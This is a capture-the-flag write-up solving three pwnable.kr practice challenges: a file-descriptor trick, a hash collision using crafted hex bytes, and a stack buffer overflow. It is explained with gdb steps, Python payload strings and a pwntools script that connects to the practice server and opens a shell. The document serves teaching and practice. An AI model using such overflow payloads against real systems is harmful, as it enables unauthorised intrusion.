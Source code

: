# Toddler's Bottle Challenges

## Challenge 1: fd

The program is expected for us to give one parameter. The program then reads to the buffer from the provided len variable, which acts as the value for the file descriptor. If the input then corresponds to `LETMEWIN\n`, the flag is cat out.

Since int fd is getting modified by the subtraction – 0x1234, which is is 4660 in decimal, we will provide that value to the program to get a file descriptor of 0 (stdin). I then enter the expected string to get the flag.

```sh
fd@pwnable:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!! 
```
### collision

The problem revolves around giving a 20 bytes password, that, after processing in `check_password`, yields a certain hashcode.

```c
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
         int* ip = (int*)p;
         int i;
         int res=0;
         for(i=0; i<5; i++){
                 res += ip[i];
         }
         return res;
}
```

In the function, it is simply taking the value of a char pointer, casting it to an integer pointer, and then adding the corresponding 5 chunks to the res counter. The reason this type of mix-match reference works is because when the original string is provided to C, the compiler simply stores it in memory. When we call back the value at that memory address as an int, instead of interpreting one byte as one character, C now takes groups of four bytes as one integer value.

Now, when I try to replicate the process with my own string, I got some weird results. A single character `a` gives a value of 97, `aa` gives 24929, `aaaa` gives 1633771873, and `aaaaaaaa` (eight a’s) gives -1027423550. Clearly I wasn’t going to reverse-engineer the password string.

Instead of putting in the password string, we could try pushing in the exact 20-byte value that we need to get the same "hashcode" back. It turns out if we want to pass a hex value as cleartext, we can use just the escape hex literal \x . Now our smart strategy would be to pass 5 numbers in hex-notation in sequential order that adds up to the hashcode (0x21DD09EC or 568134124). Since the number doesn’t purely divide into 5, we’ll just have the last part take on the remainder value.

```py
target = 0x21DD09EC
target // 5
Out[12]: 113626824
hex(target//5)
Out[13]: '0x6c5cec8'
target - target//5*4
Out[14]: 113626828
hex(target - target//5*4)
Out[15]: '0x6c5cecc'
0x6c5cec8 * 4 + 0x6c5cecc == target
Out[16]: True
```

Now turns out in the way that C stores integer values depends on the computer. Some uses Big Endian, which just do the normal thing and store the first byte of the hexadecimal representation first. Others, however, uses Little Endian, where the order is reversed the first byte is stored last.

I found this picture from GeeksforGeeks to be particularly helpful:

Value: 0x01234567

![Figure 1.](pictures/1_endian.gif)

From looking up the CTF write-ups, it turns out that the pwnable.kr server uses Little Endian (which apparently my Visual Basic compiler also uses). I then sent the following command, using Python to help format the string.

```py
col@pwnable:~$ ./col $(python -c 'print("\xcc\xce\xc5\x06"+"\xc8\xce\xc5\x06"*4)')
daddy! I just managed to create a hash collision :)
```

## Challenge 2: bof

From the C code we can see that the system is getting unsanitized input from the user and putting it in a 32 bytes char array named ‘overflowme’. The value that we want to override is the variable ‘key’, which is normally passed to the function as 0xdeadbeef. 

This problem is slightly easier than other buffer overflow challenges, since we don’t need to know the offset or exactly where the program crashes due to the unexpected input. We just need to locate where 0xcafebabe is normally stored and override it.

We start gdb by running `gdb ./bof`. We also set our break point at main with ‘break main’ and start the program with `r`. 
When the break point is hit, which is when the main function is first called, the program pauses execution for us. We can then disassemble the function func() with command `disas func`.

The line to note here is at the comparison statement – more technically known as cmpl (Compare Logical) instruction, where the passed argument variable is compared to 0xcafebabe.

The line to note here is at the comparison statement – more technically known as cmpl (Compare Logical) instruction, where the passed argument variable is compared to 0xcafebabe.

![Figure 2](pictures/2_cmp.png)

We then proceed by putting a second break point here, which will cause the problem to pause before we hit this comparison statement. (`break *0x5655564`). Note the `*` is necessary here to specify that it is an address.

We enter ‘c’ to continue, which causes the prompt for our input. I entered an arbitrary number of ‘A’ letters, though making sure not to go over the 32 bytes limit. The break point is then hit, and we can inspect at this point to see where the variables are stored.

The guide I was referencing used the command `x/50wx $esp`. Now breaking this down it is asking for us to peer into the variable `$esp`, which represents the values stored in the stack, and then get the first 50 words (‘w’) in hexadecimal format (specified by the second ‘x’).

Referencing this stack overflow guide here, we see that that this command is used to see the current functions’ return address, stack frame pointer, function parameters, and local variables. In our use, we can specify as low as `x/30wx $esp` and still get enough information to do what we need to do. Note that the ‘A’s we provided are represented in the stack as chunks of 0x41414141 (translates to ‘AAAA’)

![Figure 3](pictures/3_stack.png)


In my case I provided 19 A’s, which results in that last chunk being 0x00414141. But that aside, from this diagram we can see where our buffer starts, and how far it is from 0xdeadbeef, which is the value we want to override (exactly 13 ‘chunks’ or 4*13 = 52 bytes). Our objective, then, is to send to the program exactly 52 bytes of ‘A’s and then the equivalent value for 0xcafebabe.

Why? Because we want to override the instruction so that it will return true, given that the main function is by default passing 0xdeadbeef to func().

We can craft the input easily with python -c command:
`python -c "print 'AAAA'*13 + '\xbe\xba\xfe\xca'" > data`

Of course like the previous challenges we have to pass the variable value in little-endian form.
Note if I actually send this input to ./bof, the program will automatically have the output: 

```sh
*** stack smashing detected ***: <unknown> terminated
Aborted
```

This is because the executable given to us has some buffer overflow protection set within it. The executable on pwnable.kr, however, does not.

`(cat data && cat) | nc pwnable.kr 9000` 

gives us the shell. I found out that the ‘&& cat’ appending uses the cat utility to retrieve the output sent by nc back to us. This can also be done with (cat data -) | nc pwnable.kr 9000
Additionally, we can automate the whole exploitation process with pwntools in Python3

```py
#!/usr/bin/python
from pwn import *

payload = 'A' * 52 + '\xbe\xba\xfe\xca'
shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()
```